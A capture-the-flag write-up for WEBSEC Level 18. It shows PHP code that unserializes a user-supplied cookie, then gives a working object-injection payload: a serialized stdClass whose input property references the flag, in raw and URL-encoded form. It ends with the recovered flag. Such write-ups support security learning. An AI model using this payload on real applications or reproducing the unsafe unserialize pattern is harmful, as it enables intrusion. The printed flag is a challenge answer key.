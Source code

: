 # WEBSEC Level 18


### Challenge description

Can you please give it back? Thanks.

### Initial analysis
` <?php
include "flag.php";

if (isset ($POST['obj'])) {
    setcookie ('obj', $_POST['obj']);
} elseif (!isset ($_COOKIE['obj'])) {
    $obj = new stdClass;
    $obj->input = 1234;
    setcookie ('obj', serialize ($obj));
}
$obj = $_COOKIE['obj'];
$unserialized_obj = unserialize ($obj);
$unserialized_obj->flag = $flag;  
if (hash_equals ($unserialized_obj->input, $unserialized_obj->flag))
        echo '<div class="alert alert-success">Here is your flag: <mark>' . $flag . '</mark>.</div>';   
else 
        echo '<div class="alert alert-danger"><code>' . htmlentities($obj) . '</code> is an invalid object, sorry.</div>';
?>`

### Walk through

STEP 1: Payload to point the $obj->input to the reference of $obj->flag which in turn points to $flag

input = &$obj->flag; echo serialize($obj); 
OUTPUT: O:8:"stdClass":2:{s:4:"flag";N;s:5:"input";R:2;} 
STEP 2: URL Encode the output 
OUTPUT: O%3A8%3A%22stdClass%22%3A2%3A%7Bs%3A4%3A%22flag%22%3BN%3Bs%3A5%3A%22input%22%3BR%3A2%3B%7D 
STEP 3: Insert the output as the obj cookie value 
OUTPUT: Here is your flag: WEBSEC{You_have_impressive_refrences._We'll_call_you_back.}.


### Flag

**FLAG**: `WEBSEC{You_have_impressive_refrences._We'll_call_you_back.}`

For further queries, please DM me on Twitter: <https://twitter.com/m0n574>.
